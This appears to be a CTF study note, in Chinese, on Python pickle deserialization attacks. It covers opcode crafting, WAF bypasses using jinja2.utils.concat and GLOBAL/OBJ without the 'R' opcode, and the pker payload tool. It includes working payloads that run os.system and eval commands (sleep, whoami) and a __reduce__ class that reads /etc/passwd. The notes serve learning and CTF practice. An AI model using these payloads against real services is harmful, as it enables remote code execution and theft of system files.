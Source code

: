 tags:: CTFWEB/Python

- > [参考](https://xz.aliyun.com/t/7012)
- # 原理
	- pickle数据实际上是字节码，加载pickle就是执行这串字节码
	- 我们可以通过构造恶意字节码来调用eval函数，实现RCE
- # 绕WAF
	- payload生成：[[CTFWEB/Python/Pickle/opcode]]
	- 字符串
		- pickle要想支持字符串拼接可以考虑拿到`builtins.getattr`
		- 需要RCE可以找找其他被import的函数
		- 字符串拼接函数在jinja2中有：`jinja2.utils.concat`
			- ```python
			  builtins_opcode = pickle_obj(
			      pickle_stack_global(pickle_string("BINSTRING", "jinja2.utils"), pickle_string("BINSTRING", "concat")),
			      [
			          pickle_tuple(
			              "TUPLE",
			              [pickle_string("BINSTRING", "built"), pickle_string("BINSTRING", "ins")],
			          )
			      ],
			  )
			  ```
		-
	- 字母`R`被禁用
		- 用GLOBAL找到危险函数并用OBJ调用
		- ```python
		  import pickle
		  import pickletools
		  
		  opcode=b'''(cos
		  system
		  S'bash -c "sleep 1"'
		  o.'''
		  pickletools.dis(opcode)
		  pickle.loads(opcode)
		  ```
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
		- 可以实现：
		  collapsed:: true
			- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
			- 函数调用
			- 类型字面量构造
			- list 和 dict 成员修改
			- 对象成员变量修改
		- ```shell
		  $ cat test/code_breaking
		  getattr = GLOBAL('builtins', 'getattr')
		  dict = GLOBAL('builtins', 'dict')
		  dict_get = getattr(dict, 'get')
		  globals = GLOBAL('builtins', 'globals')
		  builtins = globals()
		  __builtins__ = dict_get(builtins, '__builtins__')
		  eval = getattr(__builtins__, 'eval')
		  eval('__import__("os").system("whoami")')
		  return
		  
		  $ python3 pker.py < test/code_breaking
		  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
		  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- pickle支持
	  id:: 65af7fea-bc74-4284-97a3-e8fbebbd3614
		- 构造任意字符串、字节序列、数字、元组、列表、字典放入栈顶
		- 取全局变量放入栈顶
			- 可以取某模块中的对象，如`__main__.app`或者`jinja2.utils.concat`
		- 调用函数
		- 根据类创建对象
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print(a)
	  ```
-